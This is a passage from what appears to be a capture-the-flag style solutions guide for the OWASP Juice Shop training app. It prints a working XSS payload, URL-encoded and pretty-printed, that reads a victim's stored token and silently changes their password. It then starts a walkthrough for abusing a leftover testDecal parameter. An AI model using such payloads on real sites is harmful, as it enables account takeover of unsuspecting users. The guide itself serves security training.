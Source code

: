 To make this exploit work, some more sophisticated attack URL is
required:

<http://localhost:3000/#/search?q=%3Ciframe%20src%3D%22javascript%3Axmlhttp%20%3D%20new%20XMLHttpRequest%28%29%3B%20xmlhttp.open%28%27GET%27%2C%20%27http%3A%2F%2Flocalhost%3A3000%2Frest%2Fuser%2Fchange-password%3Fnew%3DslurmCl4ssic%26amp%3Brepeat%3DslurmCl4ssic%27%29%3B%20xmlhttp.setRequestHeader%28%27Authorization%27%2C%60Bearer%3D%24%7BlocalStorage.getItem%28%27token%27%29%7D%60%29%3B%20xmlhttp.send%28%29%3B%22%3E>

Pretty-printed this attack is easier to understand:

```html
<iframe src="javascript:xmlhttp = new XMLHttpRequest();
   xmlhttp.open('GET', 'http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&amp;repeat=slurmCl4ssic');
   xmlhttp.setRequestHeader('Authorization',`Bearer=${localStorage.getItem('token')}`);
   xmlhttp.send();">
</iframe>
```

Anyone who is logged in to the Juice Shop while clicking on this link
will get their password set to the same one we forced onto Bender!

👏 Kudos to Joe Butler, who originally described this advanced XSS
payload in his blog post
[Hacking(and automating!) the OWASP Juice Shop](https://incognitjoe.github.io/hacking-the-juice-shop.html).

### Stick cute cross-domain kittens all over our delivery boxes

1. Log in with any user and go to
   <http://localhost:3000/#/deluxe-membership>
2. Right-click and _Inspect_ the image of the delivery boxes with the
   Juice Shop logo on them.
3. You will notice that this image is in fact an inline `<svg>` tag that
   includes six `<image>` tags. One is loading
   `assets/public/images/deluxe/blankBoxes.png` and the other five load
   `assets/public/images/JuiceShop_Logo.png` in different sizes and
   positions onto the SVG graphic.
4. Open the `main-es2015.js` in your browser DevTools and search for the
   corresponding Angular controller code related to that page and SVG
   image
5. You will be able to spot six `:svg:image` references, one of them
   `blankBoxes.png` and the other five seemingly unspecified at that
   time.

   ![Inline SVG in Angular controller](img/delivery-boxes_inline_svg.png)
6. Scrolling only slightly further down, you will notice a code location
   where a property `t.logoSrc` is passed into some non-descriptive
   function five times.

   ![Property logoSrc passed into SVG five times](img/delivery-boxes_apply_logoSrc.png)
7. Scroll up in the source code a few hundred lines until you reach the
   declaration of the controller (`class Ht` in the following
   screenshot). There you find the definition of `this.logoSrc =
   "assets/public/images/JuiceShop_Logo.png"`.
8. In the subsequent `ngOnInit()` function is overwritten with either
   the `application.logo` value coming out of the
   `getApplicationConfiguration()` service...
9. ...or - if specified - the value of the URL query parameter
   `testDecal`! It seems the developers used this for testing the
   overlay images on the SVG but forgot to remove it before go-live!
   D'uh!
